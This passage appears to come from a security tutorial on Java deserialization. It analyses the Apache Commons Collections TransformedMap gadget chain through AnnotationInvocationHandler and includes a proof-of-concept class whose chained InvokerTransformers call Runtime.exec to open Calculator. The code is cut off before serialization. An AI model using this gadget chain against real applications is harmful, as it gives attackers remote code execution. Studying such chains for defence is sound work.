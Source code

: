 <img src="./images/10.png" alt="">

> Then look at the `readObject` method overridden by the `AnnotationInvocationHandler` class. First, call the `AnnotationType.getInstance(this.type)` method to obtain the `AnnotationType` object corresponding to the `type` annotation class, and then obtain its `memberTypes` property. This property is a `Map`, which can be stored in this annotation. With the configured value, then loop the `this.memberValues`Map to get its `Key`. If the `memberTypes` property of the annotation class has the same attribute as the `key` key of `this.memberValues` and the obtained value is not an instance of `ExceptionProxy` or an instance of `memberValues`, then obtain its value and call the `setValue` method to write the value.

<img src="./images/9.png" alt="">

> According to the above analysis process, there is basically no problem in constructing `Payload`

```
[1] Construct an AnnotationInvocationHandler instance, pass in an annotation class and a map. The key of this map must have attributes that exist in the annotation class and the value is not the corresponding instance and ExceptionProxy object.
[2] This map is encapsulated with TransformedMap and is decorated by calling the custom ChainedTransformer.
[3] ChainedTransformer writes multiple Transformer implementation classes to perform chain calls to achieve malicious operations
```

## POC
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsTransformedMap {

    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);
```